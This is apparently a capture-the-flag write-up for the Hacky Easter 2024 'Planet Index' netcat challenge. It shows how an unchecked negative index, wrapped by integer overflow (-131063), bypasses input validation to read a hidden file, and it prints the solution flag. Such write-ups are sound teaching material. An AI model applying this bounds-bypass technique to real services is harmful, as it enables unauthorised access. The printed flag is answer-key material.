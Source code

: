 # Challenge "Planet Index"
![Banner Image](banner.jpg)

Welcome to the Index of Planets!

    nc ch.hackyeaster.com 2403

Note: The service is restarted every hour at x:00.


# Solution
When accessing this service with netcat, we are pleased with an planet index service. On this service, we can enter an index and receive information about the selected planet:

    ➜  Planet Index git:(main) ✗ nc ch.hackyeaster.com 2403
    ------------
    PLANET INDEX

    last update: August 2006
    ------------
    1 Mercury
    2 Venus
    3 Earth
    4 Mars
    5 Jupiter
    6 Saturn
    7 Uranus
    8 Neptune
    ------------
    Enter the index of the planet > 1
    ------------
    Mercury, small and bright, close to the light,
    From scorching heat to freezing night.

    ➜  Planet Index git:(main) ✗ 

Interesstingly, the last update was on August 2006, when Pluto was downgraded from the ninth planet from the sun to a dwarf planet. Therefore we can assume, that the flag is related to 9 (Pluto).

When entering 9 as index, we receive an error. This indicates that all numbers above the indexes are checked and denied:

    Enter the index of the planet > 9
    Invalid index! Quitting.

When entering 0, we receive another error. This indicates, that values below the possible indexes are not checked:

    Enter the index of the planet > 0
    ------------
    cat: /usr/src/planetindex/planet-0.txt: No such file or directory

When entering a big negative number like -1000, we are pleased with an integer overflow:

    Enter the index of the planet > -10000
    ------------
    cat: /usr/src/planetindex/planet-55536: No such file or directory

So now it is obvious, that we have to enter a that big negative number, that because of the overflow the input will be parsed as 9. This happens precisly with the input "-131063":

    Enter the index of the planet > -131063
    ------------
    Pluto, roses are red,
    here's your flag: he2024{plut0_41nt_n0_plan3t_n0_m0r3}



## The flag
    he2024{plut0_41nt_n0_plan3t_n0_m0r3}

